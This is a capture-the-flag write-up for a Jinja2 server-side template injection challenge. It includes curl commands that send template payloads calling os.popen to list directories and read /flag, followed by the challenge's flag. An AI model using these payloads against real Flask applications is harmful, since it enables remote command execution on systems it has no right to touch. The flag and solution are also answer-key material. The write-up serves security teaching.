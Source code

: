 # Proof of Concept

## TL;DR

- The challenge reflects user input into a Jinja2 template using `render_template_string`.
- This creates a **Server-Side Template Injection (SSTI)** vulnerability.
- With SSTI, we can execute Python code and eventually run system commands.
- The flag is stored at `/flag`.

## Steps

1. Submit a simple arithmetic payload to confirm SSTI:

   ```bash
   curl -s -X POST http://localhost:30001 \
     -d "name={{7*7}}"
   ```

2. After Confirming the Vulnerability, try to list the directories:
     ```bash
   curl -s -X POST http://localhost:30001 \
    -d "name={{ url_for.__globals__['os'].popen('ls /').read() }}"
     ```

3. After finding the flag directory, read the flag: 
    ```bash
    curl -s -X POST http://localhost:30001 \
    -d "name={{ url_for.__globals__['os'].popen('cat /flag').read() }}"
    ```

### Flag

> `HCS{n0w_y0u_h4v3_l34rn3d_ab0ut_SST1_thr0ugh_th1s_ch4ll3ng3_c0ngratzzzzzz_n1nj4_w4r10r}`
